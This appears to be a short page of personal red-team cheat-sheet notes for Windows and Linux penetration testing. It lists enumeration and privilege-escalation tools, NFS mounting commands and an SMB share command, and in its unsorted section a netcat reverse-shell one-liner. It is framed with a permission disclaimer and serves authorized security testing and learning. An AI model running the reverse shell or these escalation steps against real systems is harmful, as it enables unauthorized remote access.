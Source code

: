 ```yaml
---
description: 'Sorted Linux notes, need to separate to different pages and reorganize'
---
```


# Red Team Notes

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

living off the land binaries: [LOLBAS](https://lolbas-project.github.io/)

## Enumeration

Windows Privilege Escalation Enumeration Script: [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

Little bit o' everything: [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)

## Shares

### Mounting NFS Shares Remotely

{% embed url="https://resources.infosecinstitute.com/exploiting-nfs-share/" %}

```text
showmount -e <ip>
<list of mounts>
mkdir /tmp/<foldername?
mount -t nfs <ip>:/<mount-folder> /tmp/<foldername>
```

## Unsorted

Netcat reverse shell \(after uploading the binary!\): `nc64.exe -e cmd <ip port>`

5KFB6 tools: [https://specterops.io/resources/research-and-development](https://specterops.io/resources/research-and-development)

easy windows shell: unicorn.py [trustedsec/unicorn](https://github.com/trustedsec/unicorn) [HackTheBox - Arctic](https://www.youtube.com/watch?v=e9lVyFH7-4o)

system information: `sysinfo`

Get user id: `getuid`

Powershell privilege escalation:

* [PowerUp.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) from PowerShellEmpire
* Sherlock.ps1

[fuzzbunch](https://github.com/peterpt/fuzzbunch): exploit tool similar to metasploit

check what updates are installed: `type WindowsUpdate.log`

net use share from linux \[like SimpleHTTPServer for Samba\]: `impacket-smbserver <sharename> '<dir_to_share>'`



If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!


